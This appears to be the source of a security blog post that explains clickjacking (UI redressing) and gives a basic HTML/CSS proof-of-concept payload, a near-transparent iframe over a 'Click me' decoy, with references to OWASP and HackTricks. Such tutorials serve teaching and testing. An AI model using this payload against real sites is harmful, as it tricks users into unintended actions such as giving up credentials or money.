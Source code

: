 ```yaml
---
title: Clickjacking (UI redressing)
#author: cotes
date: 2024-11-21 12:00:00 +04:00
categories: [Web Vulnerabilities,Clickjacking]
tags: [Web Vulnerabilities]
render_with_liquid: false
image:
  path: /images/web_vulnerabilities/clickjacking/clickjacking.png
  alt: Clickjacking
---
```


## What is Clickjacking?

Clickjacking, also known as a “UI redress attack," unintentionally clicks on an invisible button placed over the visible web page user interface. This is possible when the invisible button is present in the iframe layer which is essentially superimposed over the actual page.

So, when a user clicks on some area thinking of performing a particular action, they are actually performing some other action.

This can cause users to unwittingly download malware, visit malicious web pages, provide credentials or sensitive information, transfer money, or purchase products online.

## Exploitation

**Basic Payload**

<pre>
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 470px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe src="https://publish.hoax.com/"></iframe>

</pre>






## References

[**OWASP**](https://owasp.org/www-community/attacks/Clickjacking)

[**Hacktricks**](https://book.hacktricks.xyz/pentesting-web/clickjacking)

